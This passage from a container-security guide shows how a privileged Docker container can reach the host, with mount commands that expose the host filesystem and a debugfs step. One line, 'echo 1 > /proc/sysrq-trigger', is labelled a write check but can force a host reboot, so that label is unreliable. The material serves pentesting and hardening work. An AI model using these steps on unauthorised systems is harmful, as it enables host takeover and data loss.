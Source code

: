 Test it in a container executing:

```bash
docker run --rm -it --pid=host --privileged ubuntu bash
```

### Privileged

Just with the privileged flag you can try to **access the host's disk** or try to **escape abusing release\_agent or other escapes**.

Test the following bypasses in a container executing:

```bash
docker run --rm -it --privileged ubuntu bash
```

#### Mounting Disk - Poc1

Well configured docker containers won't allow command like **fdisk -l**. However on miss-configured docker command where the flag `--privileged` or `--device=/dev/sda1` with caps is specified, it is possible to get the privileges to see the host drive.

![](https://bestestredteam.com/content/images/2019/08/image-16.png)

So to take over the host machine, it is trivial:

```bash
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```

And voilà ! You can now access the filesystem of the host because it is mounted in the `/mnt/hola` folder.

#### Mounting Disk - Poc2

Within the container, an attacker may attempt to gain further access to the underlying host OS via a writable hostPath volume created by the cluster. Below is some common things you can check within the container to see if you leverage this attacker vector:

```bash
#### Check if You Can Write to a File-system
echo 1 > /proc/sysrq-trigger

#### Check root UUID
cat /proc/cmdline
BOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300

# Check Underlying Host Filesystem
findfs UUID=<UUID Value>
/dev/sda1

# Attempt to Mount the Host's Filesystem
mkdir /mnt-test
mount /dev/sda1 /mnt-test
mount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

#### debugfs (Interactive File System Debugger)
debugfs /dev/sda1
```
